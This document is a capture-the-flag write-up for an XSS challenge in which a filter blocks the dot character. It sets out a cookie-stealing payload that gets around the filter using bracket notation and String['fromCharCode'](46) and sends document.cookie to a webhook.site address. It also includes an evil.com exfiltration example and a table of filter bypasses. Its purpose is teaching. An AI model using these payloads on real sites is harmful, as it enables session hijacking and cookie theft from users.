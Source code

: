 # PA_easyxss1 - CTF Writeup

## Challenge Description
This is a Cross-Site Scripting (XSS) challenge where we need to execute JavaScript code to steal user cookies. The application has a filtering mechanism that blocks the '.' character to prevent common XSS attacks.

## Initial Analysis
The target application accepts user input that gets reflected in the HTML page. Our goal is to inject malicious JavaScript that will:
1. Execute in the victim's browser
2. Steal their cookies
3. Send the stolen data to our webhook

## The Challenge: Dot Filter Bypass

### The Problem
The application filters the '.' (dot) character, which is commonly used in JavaScript for:
- Property access (e.g., `document.cookie`)
- Method calls (e.g., `String.fromCharCode()`)
- Domain names in URLs (e.g., `webhook.site`)

### Reconnaissance
Standard XSS payloads like these would be blocked:
```html
<script>document.cookie</script>
<img src=x onerror="window.location='http://evil.com?c='+document.cookie">
```

## Exploitation Strategy

### Bypass Technique: String.fromCharCode()
The key insight is to use `String['fromCharCode'](46)` instead of a literal dot character:
- `46` is the ASCII code for '.' character
- `String['fromCharCode']` uses bracket notation instead of dot notation
- This allows us to dynamically generate the dot character

### Final Payload Analysis
```html
<img src=x onerror="new Image()['src']='https://webhook'+String['fromCharCode'](46)+'site/your-webhook-id?c='+'document['cookie']">
```

### Payload Breakdown:

1. **`<img src=x onerror="...">`**
   - Uses an invalid image source to trigger the `onerror` event
   - Executes JavaScript when the image fails to load

2. **`new Image()['src']=`**
   - Creates a new Image object
   - Uses bracket notation instead of dot notation to set the `src` property
   - When `src` is set, the browser makes an HTTP request to that URL

3. **`'https://webhook'+String['fromCharCode'](46)+'site/...'`**
   - Constructs the webhook URL dynamically
   - `String['fromCharCode'](46)` generates the '.' character
   - Bypasses the dot filter by creating the dot programmatically
   - Results in: `https://webhook.site/your-webhook-id`

4. **`'?c='+'document['cookie']'`**
   - Adds a query parameter `c` with the stolen cookies
   - Uses bracket notation `document['cookie']` instead of `document.cookie`
   - Avoids the dot filter while accessing the cookie property

## Technical Details

### Why This Works:
- **Dynamic Character Generation**: `String.fromCharCode(46)` creates a dot without using the literal character
- **Bracket Notation**: `object['property']` is equivalent to `object.property` but doesn't use dots
- **HTTP Request via Image**: Setting an image's `src` automatically triggers an HTTP request
- **Cookie Exfiltration**: The stolen cookies are sent as URL parameters to our webhook

### Filter Bypass Summary:
| Blocked | Bypass Method |
|---------|---------------|
| `webhook.site` | `'webhook'+String['fromCharCode'](46)+'site'` |
| `document.cookie` | `document['cookie']` |
| `image.src` | `image['src']` |

## Exploitation Process

1. **Set up webhook**: Create a webhook at `webhook.site` to receive stolen data
2. **Inject payload**: Submit the crafted XSS payload to the vulnerable application
3. **Wait for victim**: When a user visits the page, the JavaScript executes
4. **Receive cookies**: The webhook receives the stolen cookies as query parameters

## Expected Result
When the payload executes, the webhook receives a request like:
```
GET /your-webhook-id?c=sessionid=abc123;userid=456;flag=flag{...}
```

## Key Insights

### Bypass Techniques Used:
1. **ASCII Character Generation**: Using `String.fromCharCode()` to create filtered characters
2. **Bracket Notation**: Accessing object properties without dots
3. **String Concatenation**: Building URLs dynamically to avoid detection
4. **Event-Based Execution**: Using `onerror` event for reliable JavaScript execution

### Why Standard Filters Fail:
- Simple character blacklists can often be bypassed with encoding or dynamic generation
- JavaScript's flexibility allows multiple ways to achieve the same result
- Bracket notation provides an alternative to dot notation for property access

## Lessons Learned
- Character-based filters are often insufficient for XSS protection
- JavaScript's dynamic nature allows creative bypass techniques
- Proper XSS prevention requires output encoding and Content Security Policy (CSP)
- Always test filter bypasses using alternative JavaScript syntax

## Flag
The stolen cookies contain the flag, which is captured by the webhook when the XSS payload executes successfully.
